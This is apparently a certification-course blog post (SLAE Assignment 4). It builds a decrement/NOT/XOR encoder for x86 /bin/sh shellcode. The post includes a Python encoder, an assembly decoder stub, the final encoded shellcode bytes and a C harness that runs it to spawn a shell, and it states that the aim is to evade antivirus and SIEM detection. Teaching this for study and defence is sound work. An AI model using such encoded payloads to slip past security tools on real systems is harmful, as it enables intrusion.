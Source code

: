 **Assignment 4**

Shellcode for Custom encoder and decoder for bin/sh shellcode

**Introduction**

	A shellcode encoder is used to modify an existing shellcode to make it harder to detect by AV engines / SIEM tools 

	The encoder itself doesn’t provide any real security however since the obfuscation scheme is built into the code and is therefore reversible by anyone who has access to the encoded shellcode. This should not be confused with encryption, where security is based on the key and not the secrecy of the encryption scheme


**Methadology**

	Following is the Encoding schema being used in the order

		Each byte of the /bin/sh shellcode is decremented by 1
		NOT operation on each bytes
		Each byte is Xor ed with 0xbb


	This Encoded payload is generated using a python script

	The Decoding schema being used in the order
		Each byte is Xor ed with 0xbb
		NOT operation on each bytes
		Each byte is incremented by 1




	EncoderScript.py	

	Following script takes the shellcode and perform the above mentioned encoding operation for each byte.

	#!/bin/python3

	import socket
	import sys

	sc_original = (b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
									#/bin/sh shellcode
									#shellcode is considered as a byte array
	enc = ""
	enc2= ""

	for c in bytearray(sc_original):
        a = c - 0x01            	#each byte is decremented by 1
        b = ~a                  	#NOT operation
        c = b^0xBB              	#XOR operation on each byte 
        								#based on premise A XOR B = C , C XOR B = A

        enc+= '\\x'
        enc+= "%02x" %(c & 0xff)

        enc2+= "0x"
        enc2+= "%02x," %(c & 0xff)


	print("Encoded Payload:  ")
	print("----------------------")

	s2 = enc2.rstrip(',')
	print(s2)


	toor@ubuntu:~/Desktop/slae/Assignments/4$ python3 encodecreaterpy3.py
	Encoded Payload:
	----------------------
	0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b
	toor@ubuntu:~/Desktop/slae/Assignments/4$


	We have the encoded payload now 


		0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b

		a 0xbb is appended to the encoded shellcode to make the program easier ie appended 0xbb in the shellcode variable is used as a marker to pointout the end of the encoded payload. Now the payload would be .

		Its worth mentioning that A XOR A = 0 , so when you perform an xor operation make sure that the operator byte is not in the encoded payload

		0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b,0xbb

	Now ,we write a assembly program to decode this encoded shellcode 

	toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ cat damn.asm
	global _start

	section .text

	_start:

        jmp short step_1


	step_2:
        pop edi

	decoder:

        cmp byte [edi],0xbb
        jz shellcode

        xor byte [edi],0xbb  ;xor with bb
        not byte [edi]       ;not operation
        inc byte [edi]       ;inc byte

        inc edi
        jmp short decoder


	step_1:
        call step_2
        shellcode: db 0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b,0xbb
	toor@ubuntu:~/Desktop/slae/Assignments/4/etc$


	program starts with a jmp to step_1  and then a call to step_2
	The decoder uses the JMP CALL POP technique to push the address of the encoded shellcode on the stack. so when the call instruction is executed the address of the next instruction is put on to the stack on the premise that once the function is over ,the control is given back to the next instruction

	So the Address of the variable shellcode is put onto the stack and is poped on to edi

	appended 0xbb in the shellcode variable is used as a marker to pointout the end of the encoded payload . A comparison operator is used here to check whether rhe operation is complete

	each byte of "shellcode" will be undergoing decoder process ie

								xor with 0xbb
								not operation
								increment 
   Once the process is over control is given to the shellcode address ,where the /bin/sh decoded shellcode is .


**Practical**

	Extracting shellcode
	toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ objdump -d ./damn|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//
	g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
	"\xeb\x10\x5f\x80\x3f\xbb\x74\x0f\x80\x37\xbb\xf6\x17\xfe\x07\x47\xeb\xf1\xe8\xeb\xff\xff\xff\x74\xfb\x0b\x23\x29\x6a\x36\x23\x23\x6a\x6a\x25\x2c\xcc\xa6\x0b\xcc\xa5\x16\xcc\xa4\xeb\x4e\x88\x3b\xbb"
	
	The shellcode is copied onto a shellcode test c program

	toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ cat shellcodetest.c
	#include<stdio.h>
	#include<string.h>

	char code[] = "\xeb\x10\x5f\x80\x3f\xbb\x74\x0f\x80\x37\xbb\xf6\x17\xfe\x07\x47\xeb\xf1\xe8\xeb\xff\xff\xff\x74\xfb\x0b\x23\x29\x6a\x36\x23\x23\x6a\x6a\x25\x2c\xcc\xa6\x0b\xcc\xa5\x16\xcc\xa4\xeb\x4e\x88\x3b\xbb";

	int main(void)
	{
        printf("shellcode length: %d\n",strlen(code));
        (*(void(*)()) code)();
	}


	toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ nano shellcodetest.c
	
	toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ gcc -fno-stack-protector -z execstack shellcodetest.c -o shellcode
	
	toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ ./shellcode
	shellcode length: 49
	$ id
	uid=1000(toor) gid=1000(toor) groups=1000(toor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)



**Github Repository**

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509